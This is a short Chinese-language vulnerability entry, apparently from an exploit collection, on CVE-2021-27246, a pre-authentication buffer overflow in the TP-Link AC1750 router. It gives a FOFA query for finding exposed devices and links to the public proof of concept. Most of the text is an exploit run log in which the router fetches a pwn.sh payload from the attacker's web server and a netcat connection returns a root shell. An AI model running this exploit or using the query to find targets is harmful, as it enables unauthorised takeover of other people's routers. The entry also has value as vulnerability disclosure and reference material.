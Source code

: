 # TP-Link AC1750 预认证远程代码执行漏洞（CVE-2021-27246）


在TP-Link AC1750的tdpServer守护程序中存在漏洞，没有检查json数据的大小，导致了缓冲区溢出，通过缓冲区溢出，可以导致代码执行。

FOFA:

```
app="TP_LINK-AC1750"
```

漏洞详情见：https://www.synacktiv.com/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750.html

poc：https://github.com/synacktiv/CVE-2021-27246_Pwn2Own2020

```
$ bash exploit.sh 
[+] Launching web server for distribution of pwn.sh
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload

[+] Trying the root shell (Low probability of success...)
nc -v 192.168.0.1 12345
nc: connect to 192.168.0.1 port 12345 (tcp) failed: Connection refused

[ ] If shell hasn't succeed, don't worry, we retry 

INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload
192.168.0.1 - - [30/Nov/2020 12:10:59] "GET /pwn.sh HTTP/1.1" 200 -

[+] Trying the root shell (High probability of success...)
nc -v 192.168.0.1 12345
Connection to 192.168.0.1 12345 port [tcp/*] succeeded!
uname -a
Linux ArcherA7v5 3.3.8 #1 Mon Sep 14 19:52:46 CST 2020 mips GNU/Linux
id
uid=0(root) gid=0(root)
^C[-] Stopping Webserver, now
Terminated
```

ref:

* https://www.synacktiv.com/public ... tp-link-ac1750.html
* https://github.com/synacktiv/CVE-2021-27246_Pwn2Own2020
* https://nvd.nist.gov/vuln/detail/CVE-2021-27246